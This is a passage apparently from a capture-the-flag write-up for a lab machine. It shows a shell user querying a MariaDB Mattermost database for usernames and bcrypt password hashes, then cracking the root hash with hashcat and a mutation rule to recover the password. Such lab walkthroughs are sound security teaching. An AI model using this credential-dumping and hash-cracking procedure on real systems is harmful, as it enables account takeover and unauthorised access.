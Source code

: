 The password for the account is a hint for the next steps to take. 

First we log into mysql to retrieve the usernames and passwords from the `mattermost.Users` table.

```sql
maildeliverer@Delivery:/$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 181
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> select username, password from mattermost.Users;
+----------------------------------+--------------------------------------------------------------+
| username                         | password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| grem                             | $2a$10$yvZ.J0XP.bJ8gDt890oBnOQRsO/uc.3ePEPo54FScoNqEjS6NSLVC |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.001 sec)

MariaDB [(none)]> ```
```

Following the 2 earlier hints, we are particularly interested in the root hash in combination with variations of the password `PleaseSubscribe!`.


### Hashcat

With the predefined `best64.rule` hashcat rule we are able to crack the password of the account in a short amount of time.

```sh
$ cat hash 
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

```sh
$ hashcat -m 3200 -O hash pw -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.1.1) starting...
...[snip]...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21  

Session..........: hashcat  
Status...........: Cracked                
Hash.Name........: bcrypt $2\*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 13 10:05:14 2021 (1 sec)           
Time.Estimated...: Tue Apr 13 10:05:15 2021 (0 secs)    
Guess.Base.......: File (pw)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       23 H/s (2.61ms) @ Accel:2 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 21/77 (27.27%)                             
Rejected.........: 0/21 (0.00%)                         
Restore.Point....: 0/1 (0.00%)
```